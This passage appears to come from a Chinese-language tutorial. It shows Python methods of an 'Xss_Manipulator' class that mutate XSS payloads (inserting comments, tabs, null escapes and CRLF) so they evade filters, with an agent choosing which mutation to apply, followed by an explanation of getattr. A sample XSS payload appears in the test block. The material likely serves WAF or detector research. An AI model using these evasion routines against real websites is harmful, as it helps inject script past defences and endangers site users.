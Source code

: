 ```py
        matchStr = re.findall(r'[a-qA-Q]', str, re.M | re.I)
        if matchStr:
            modify_char = random.choice(matchStr)
            modify_char_comment = "{}/*4444*/".format(ord(modify_char))
            str = re.sub(modify_char, modify_char_comment, str, count=random.randint(1, 3))
        return str

    def addTab(self, str):
        matchStr = re.findall(r'[a-qA-Q]', str, re.M | re.I)
        if matchStr:
            modify_char = random.choice(matchStr)
            modify_char_tab = "   {}".format(ord(modify_char))
            str = re.sub(modify_char, modify_char_tab, str, count=random.randint(1, 3))
        return str

    def addZero(self,str):
        matchObjs = re.findall(r'[a-qA-Q]', str, re.M | re.I)   # 正则
        if matchObjs:
            modify_char=random.choice(matchObjs)
            modify_char_zero="\\00{}".format(modify_char)
            str=re.sub(modify_char, modify_char_zero, str, count=random.randint(1, 3))
        return str

    def addEnter(self,str,seed=None):
        matchObjs = re.findall(r'[a-qA-Q]', str, re.M | re.I)
        if matchObjs:
            modify_char=random.choice(matchObjs)
            modify_char_enter="\\r\\n{}".format(modify_char)
            str=re.sub(modify_char, modify_char_enter, str, count=random.randint(1, 3))
        return str

#测试
if __name__ == '__main__':
    f =Xss_Manipulator()
    str = "><h1/ondrag=confirm`1`)>DragMe</h1>"
    print(f.modify(str, 'charTo16'))
    print(f.modify(str, 'addComment'))
```

也就是当智能体做出某个免杀操作是，xss_manipulator接受智能体的命令对xss的payload做出免杀操作

这里要讲一下getattr 函数，可以从对象中根据字符串名称获取属性或方法。如果属性是一个可调用的方法，可以直接调用它

```py
class MyClass:
    def greet(self):
        print("Hello!")


# 创建实例
obj = MyClass()

# 动态调用方法
method_name = "greet"

method = getattr(obj, method_name)  # 获取方法
method()  # 调用方法
```
